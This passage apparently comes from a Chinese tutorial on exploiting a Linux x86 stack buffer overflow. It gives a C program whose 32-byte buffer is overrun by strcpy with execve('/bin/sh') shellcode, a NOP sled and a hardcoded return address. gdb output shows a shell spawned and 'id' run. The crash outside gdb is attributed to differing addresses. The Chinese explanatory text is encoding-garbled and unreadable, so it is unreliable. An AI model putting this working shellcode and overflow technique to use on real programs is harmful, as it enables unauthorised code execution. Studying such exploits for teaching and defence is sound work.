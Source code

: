 void Overflow(char temp[])
{
    char buffer[32];
    strcpy(buffer, temp);
    printf(&quot;%s\n&quot;, buffer);
}

int main()
{
    //execve(&quot;/bin/sh&quot;);
    char temp[64] = &quot;\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xd0\xee\xff\xbf&quot;;
    Overflow(temp);
    return 0;
}
</code></pre><p>gdb璋冭瘯璺戣捣鏉ワ紝鎴愬姛杩斿洖浜嗕竴涓猻hell</p>
<pre><code>gdb-peda$ r
Starting program: /home/wnagzihxain/Demo 
1锟斤拷锟絈h//shh/bin锟斤拷锟�
                  锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟�
process 5854 is executing new program: /bin/dash
$ id    
[New process 5858]
process 5858 is executing new program: /usr/bin/id
[Thread debugging using libthread_db enabled]
Using host libthread_db library &quot;/lib/i386-linux-gnu/libthread_db.so.1&quot;.
uid=1000(wnagzihxain) gid=1000(wnagzihxain) groups=1000(wnagzihxain),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ [Inferior 2 (process 5858) exited normally]
Warning: not running or target is remote
</code></pre><p>涓嶉敊锛岄紦鎺岋紝鎾掕姳<del>~</del>~</p>
<p>鎴戜滑涓嶄娇鐢╣db璋冭瘯妯″紡锛岀洿鎺ヨ繍琛�</p>
<pre><code>wnagzihxain@toT0C:~$ ./Demo
1锟斤拷锟絈h//shh/bin锟斤拷锟�
                  锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟�
娈甸敊璇� (鏍稿績宸茶浆鍌�)
</code></pre><p>杩樻槸涓€鏍风殑杩斿洖鍦板潃锛岃繕鏄竴鏍风殑Shellcode锛屼絾鏄负浠€涔堣繖閲屽氨鍑洪敊浜嗗憿锛�</p>
<p>鍘熷洜鏄洜涓篻db浼氬奖鍝嶇▼搴忕殑瀹為檯鍦板潃锛屽湪gdb璋冭瘯妯″紡涓嬶紝鎴戜滑鐪嬪埌鐨勫湴鍧€璺熺湡瀹炵幆澧冧笅鏄笉涓€鏍风殑(鏈鍑鸿嚜钂哥背鐨勩€婁竴姝ヤ竴姝ュROP涔媗inux_x86绡囥€�)</p>
<p>鎵€浠ユ祴璇曞嚭婧㈠嚭鐐瑰悗锛屾垜浠氨闇€瑕佹壘鍒�<code>buffer</code>鍦ㄥ唴瀛樼殑鐪熷疄鍦板潃</p>
<p>鎵惧埌鐪熷疄鍦板潃鏈変袱绉嶆瘮杈冨父鐢ㄧ殑鏂规硶锛屼竴涓槸<code>core dump</code>锛屽彟涓€涓槸<code>attach</code></p>
<p>鍏堟潵浣跨敤<code>core dump</code>锛岃繖涓渶瑕佸紑鍚紝杩欓噷杩樻槸鎶勮捀绫崇殑锛�<code>core.%t</code>鐪熷ソ鐢�</p>
